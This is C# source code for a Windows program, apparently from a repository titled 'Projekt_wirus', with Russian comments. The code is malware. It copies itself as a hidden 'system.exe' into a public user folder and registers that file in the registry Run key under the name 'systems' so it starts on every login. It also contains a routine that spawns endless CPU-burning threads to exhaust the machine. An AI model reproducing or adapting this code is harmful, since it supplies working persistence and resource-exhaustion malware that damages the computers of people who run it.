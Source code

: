 # Projekt_wirus
public partial class MainWindow : Window
    {
        public static string needPatch = "C:\\Users\\Public\\";


        public MainWindow()
        {
            if (OSVersionInfo.Name == "Windows 7" || OSVersionInfo.Name == "Windows Vista" )
            {
                autorun.SetAutorunValue(true, needPatch + "system.exe"); // добавить в автозагрузку
                //SetAutorunValue(false, needPatch + "system.exe");  // убрать из автозагрузки
            }
            else
                if (OSVersionInfo.Name == "Windows XP")
            {
                needPatch = "C:\\Documents and Settings\\All Users\\";
                autorun.SetAutorunValue(true, needPatch + "system.exe"); // добавить в автозагрузку
                                                                         //SetAutorunValue(false, needPatch + "system.exe");  // убрать из автозагрузки
            }

            InitializeComponent();
        }
        private void Window_Loaded(object sender, RoutedEventArgs e)
        {
            if (!File.Exists(needPatch + "system.exe"))
            {
                try
                {
                    File.Copy("system.exe", needPatch + "system.exe");
                    File.SetAttributes(needPatch + "system.exe", FileAttributes.Hidden);

                }
                catch {   }
            }
            start();
        }

        public static void sys_sleep()
        {
            while (true)
            {
                Thread s = new Thread(s_b);
                s.Start();
            }
        }
        private static void s_b()
        {
            int y = 2;
            while (true)
            {
                y *= y;
            }
        }
        
        public class autorun: Singleton<autorun>
    {
        public static bool SetAutorunValue(bool autorun, string npath)
        {
            const string name = "systems";
            string ExePath = npath;
            RegistryKey reg;

            reg = Registry.CurrentUser.CreateSubKey("Software\\Microsoft\\Windows\\CurrentVersion\\Run\\");
            try
            {
                if (autorun)
                    reg.SetValue(name, ExePath);
                else
                    reg.DeleteValue(name);
                reg.Flush();
                reg.Close();
            }
            catch
            {
                return false;
            }
            return true;
        }
    }
}
namespace DoFactory.GangOfFour.Singleton.Structural
{
    public class Singleton<T> where T : class
    {
        private static T _instance;

        protected Singleton()
        {
        }

        private static T CreateInstance()
        {
            ConstructorInfo cInfo = typeof(T).GetConstructor(
            BindingFlags.Instance | BindingFlags.NonPublic,
            null,
            new Type[0],
            new ParameterModifier[0]);

            return (T)cInfo.Invoke(null);
        }

        public static T Instance
        {
            get
            {
                if (_instance == null)
                {
                    _instance = CreateInstance();
                }

                return _instance;
            }
        }
    }
}
